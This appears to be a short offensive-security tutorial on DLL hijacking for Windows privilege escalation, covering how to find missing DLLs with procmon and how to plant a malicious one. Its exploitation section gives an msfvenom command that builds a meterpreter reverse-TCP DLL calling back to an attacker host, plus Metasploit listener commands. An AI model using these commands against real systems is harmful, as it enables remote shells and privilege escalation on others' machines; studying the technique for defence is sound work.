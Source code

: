 First of all, let’s get the definition out of the way. DLL hijacking is, in the broadest sense, tricking a legitimate/trusted application into loading an arbitrary DLL. Terms such as DLL Search Order Hijacking, DLL Load Order Hijacking, DLL Spoofing, DLL Injection and DLL Side-Loading are often -mistakenly- used to say the same.
Dll hijacking can be used to execute code, obtain persistence and escalate privileges. From those 3 the least probable to find is privilege escalation by far. However, as this is part of the privilege escalation section, I will focus on this option. Also, note that independently of the goal, a dll hijacking is perform the in the same way.

#Finding-missing-Dlls

The most common way to find missing Dlls inside a system is running procmon from sysinternals, setting the following 2 filters from jpg files i put .
If you are looking for missing dlls in general you leave this running for some seconds.
If you are looking for a missing dll inside an specific executable you should set another filter like "Process Name" "contains" "<exec name>", execute it, and stop capturing events.

#Exploiting Missing Dlls

In order to escalate privileges, the best chance we have is to be able to write a dll that a privilege process will try to load in some of place where it is going to be searched. Therefore, we will be able to write a dll in a folder where the dll is searched before the folder where the original dll is (weird case), or we will be able to write on some folder where the dll is going to be searched and the original dll doesn't exist on any folder.

Use metasploit :

msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f dll -o msf.dll

after that build up listener

mfsconsole

use multi/handler

set LHOST YOUR-IP

set LPORT YOUR-PORT

set PAYLOAD windows/meterpreter/reverse_tcp

exploit


Enjoy :)
